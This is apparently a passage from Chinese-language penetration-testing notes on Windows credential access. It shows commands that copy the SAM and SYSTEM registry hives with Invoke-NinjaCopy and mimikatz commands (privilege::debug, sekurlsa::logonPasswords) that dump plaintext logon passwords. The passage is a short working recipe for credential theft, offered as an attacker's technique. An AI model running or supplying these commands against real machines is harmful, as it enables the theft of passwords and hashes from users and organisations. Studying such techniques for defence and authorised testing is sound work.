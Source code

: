 ![1574317634601](Credential%20Access.assets/1574317634601.png)

**Invoke-NinjaCopy.ps1**

使用命令

```
Import-Module .\invoke-ninjacopy.ps1
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\sam.hive
Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination .\system.hive
```

导出的文件同样需要通过类似于mimikatz这样的工具导出为明文。

还有像Ntdsdump之类的工具，不再一一介绍。

### Plaintext Credentials

比如使用mimikatz和procdump组合使用导出系统中的密码

也可以直接使用mimkatz命令:

```
privilege::debug
sekurlsa::logonPasswords
```

![1574317707084](Credential%20Access.assets/1574317707084.png)
